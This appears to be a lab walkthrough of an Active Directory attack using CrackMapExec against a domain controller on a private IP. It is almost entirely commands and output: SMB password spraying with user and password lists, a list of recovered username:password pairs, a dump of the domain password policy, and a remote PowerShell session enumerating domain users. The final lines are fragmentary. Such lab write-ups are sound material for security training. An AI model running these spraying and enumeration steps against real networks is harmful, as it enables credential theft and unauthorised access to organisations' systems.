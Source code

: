 ```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackmapexec]
└─$ crackmapexec smb 192.168.175.155
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Initializing RDP protocol database
[*] Initializing FTP protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing MSSQL protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         192.168.175.155 445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:xyz.com) (signing:True) (SMBv1:False)
```
Let's try it with our list of users and passwords, only show successful hits
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackmapexec]
└─$ crackmapexec smb 192.168.175.155 -u users.txt -p passwords.txt | grep '[+]' 
SMB                      192.168.175.155 445    DC1              [+] xyz.com\aallan:bonita
```  
OK, but it stops at the first find, we want it to continue
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackmapexec]
└─$ crackmapexec smb 192.168.175.155 -u users.txt -p passwords.txt --continue-on-success | grep '[+]'
SMB                      192.168.175.155 445    DC1              [+] xyz.com\aallan:bonita 
SMB                      192.168.175.155 445    DC1              [+] xyz.com\aberry:cantik 
SMB                      192.168.175.155 445    DC1              [+] xyz.com\adickens:147258 
SMB                      192.168.175.155 445    DC1              [+] xyz.com\ahenderson:0123456 
SMB                      192.168.175.155 445    DC1              [+] xyz.com\ahodges:rebecca 
SMB                      192.168.175.155 445    DC1              [+] xyz.com\alewis:johnny 
SMB                      192.168.175.155 445    DC1              [+] xyz.com\alice:bubbles 
...
```
OK, that works !

Try some searches based on a valid user
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackmapexec]
└─$ crackmapexec smb 192.168.175.155 -u alewis -p johnny --pass-pol                
SMB         192.168.175.155 445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:xyz.com) (signing:True) (SMBv1:False)
SMB         192.168.175.155 445    DC1              [+] xyz.com\alewis:johnny 
SMB         192.168.175.155 445    DC1              [+] Dumping password info for domain: XYZ
SMB         192.168.175.155 445    DC1              Minimum password length: 1
SMB         192.168.175.155 445    DC1              Password history length: 24
SMB         192.168.175.155 445    DC1              Maximum password age: 41 days 23 hours 53 minutes 
SMB         192.168.175.155 445    DC1              
SMB         192.168.175.155 445    DC1              Password Complexity Flags: 000000
SMB         192.168.175.155 445    DC1                  Domain Refuse Password Change: 0
SMB         192.168.175.155 445    DC1                  Domain Password Store Cleartext: 0
SMB         192.168.175.155 445    DC1                  Domain Password Lockout Admins: 0
SMB         192.168.175.155 445    DC1                  Domain Password No Clear Change: 0
SMB         192.168.175.155 445    DC1                  Domain Password No Anon Change: 0
SMB         192.168.175.155 445    DC1                  Domain Password Complex: 0
SMB         192.168.175.155 445    DC1              
SMB         192.168.175.155 445    DC1              Minimum password age: 1 day 4 minutes 
SMB         192.168.175.155 445    DC1              Reset Account Lockout Counter: 10 minutes 
SMB         192.168.175.155 445    DC1              Locked Account Duration: 10 minutes 
SMB         192.168.175.155 445    DC1              Account Lockout Threshold: None
```

[[192.168.175.155]: PS C:\Windows\Tasks> ls
[192.168.175.155]: PS C:\Windows\Tasks> net user /domain
[192.168.175.155]: PS C:\Windows\Tasks> net user /domain